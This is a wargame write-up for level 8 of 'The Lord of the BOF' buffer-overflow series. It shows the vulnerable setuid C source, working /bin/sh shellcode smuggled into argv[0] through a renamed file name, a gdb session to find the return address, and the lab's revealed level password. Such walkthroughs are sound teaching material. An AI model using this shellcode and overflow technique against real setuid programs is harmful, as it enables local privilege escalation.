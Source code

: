 # Level8

## This level's goal
- LEVEL8 (orge -> troll) : check argc

***

```
[orge@localhost orge]$ bash2

[orge@localhost orge]$ ls -l
total 20
-rwsr-sr-x    1 troll    troll       12693 Mar  1  2010 troll
-rw-r--r--    1 root     root          772 Mar 29  2010 troll.c

[orge@localhost orge]$ cat troll.c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        // here is changed
        if(argc != 2){
                printf("argc must be two!\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }

        // check the length of argument
        if(strlen(argv[1]) > 48){
                printf("argument is too long!\n");
                exit(0);
        }

        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);

        // one more!
        memset(argv[1], 0, strlen(argv[1]));
}
```

In the code, there is some changed code that you can only use argv[0] and argv[1]. Also, argv[1] will be reset.

So, you need to input the shell code in the filename and return the argv[0]'s address.

```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'` troll
rename: renaming troll to 1ÀPh//shh/bin‰ãPS‰á‰Â°
                                                Í€ failed: No such file or directory
```

There is the error cuz \x2f will be read "/" in the shell code.

So, I will use another shell code.   
`\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81`


```
[orge@localhost orge]$ rename troll `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` troll
[orge@localhost orge]$ mkdir tmp
[orge@localhost orge]$ cp `python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` tmp/
[orge@localhost orge]$ ./tmp/`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\xff\xff\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAÿÿÿ¿
Segmentation fault (core dumped)
[orge@localhost orge]$ gdb -c core -q
Core was generated by `./tmp/ë^1É±2€lÿ€éuöëèêÿÿÿ2ÁQi00tii0cjoŠäQTŠâš±
Î    '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfffffff in ?? ()

(gdb) x/200x $esp
0xbffffb60:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffffb70:     0x742f2e00      0x902f706d      0x90909090      0x90909090
0xbffffb80:     0x90909090      0x90909090      0xeb909090      0xc9315e11
0xbffffb90:     0x6c8032b1      0x8001ff0e      0xf67501e9      0xeae805eb

[orge@localhost orge]$ ./`python -c 'print "\x90"*20+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"+" "+"A"*44+"\x80\xfb\xff\xbf"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA€ûÿ¿
bash$ my-pass
euid = 508
aspirin
```
